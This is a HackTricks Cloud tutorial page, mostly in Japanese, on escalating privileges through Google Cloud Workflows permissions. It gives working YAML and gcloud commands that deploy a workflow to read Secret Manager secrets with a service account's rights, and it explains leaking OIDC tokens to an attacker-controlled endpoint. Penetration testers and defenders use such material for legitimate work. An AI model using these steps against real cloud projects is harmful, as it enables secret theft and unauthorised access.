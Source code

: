 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

基本情報:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

私の知る限り、Workflowに攻撃されたSAの資格情報を含むメタデータエンドポイントへのアクセスでシェルを取得することは不可能です。しかし、Workflow内で実行するアクションを追加することで、SAの権限を悪用することは可能です。

コネクタのドキュメントを見つけることができます。例えば、これは[**Secretmanagerコネクタのページ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**です。** サイドバーには他のいくつかのコネクタが見つかります。

ここに秘密を印刷するコネクタの例があります:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLIからの更新:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
もし `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` のようなエラーが発生した場合は、**1分待って再試行してください**。

ウェブアクセスがない場合は、次の方法でWorkflowの実行をトリガーして確認することができます：

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
以前の実行の出力を確認して、機密情報を探すこともできます。
{% endhint %}

`PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` のようなエラーが発生しても、その権限がないため、ワークフローは生成されています。

### OIDCトークンの漏洩（およびOAuth？）

[**ドキュメントによると**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)、ワークフローステップを使用して、OAuthまたはOIDCトークンを含むHTTPリクエストを送信することが可能です。しかし、[Cloud Scheduler](gcp-cloudscheduler-privesc.md)の場合と同様に、OAuthトークンを含むHTTPリクエストはホスト`.googleapis.com`に送信する必要があります。

{% hint style="danger" %}
したがって、**ユーザーが制御するHTTPエンドポイントを指定することでOIDCトークンを漏洩させることが可能ですが、**OAuthトークンを漏洩させるにはその保護を**バイパスする必要があります。しかし、**コネクタまたはOAuthトークンを使用したHTTPリクエストで、SAの代理として任意のGCP APIに連絡を取ることは依然として可能です。**
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

この権限を使用すると、`workflows.workflows.create`の代わりに、既存のワークフローを更新し、同じ攻撃を実行することが可能です。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
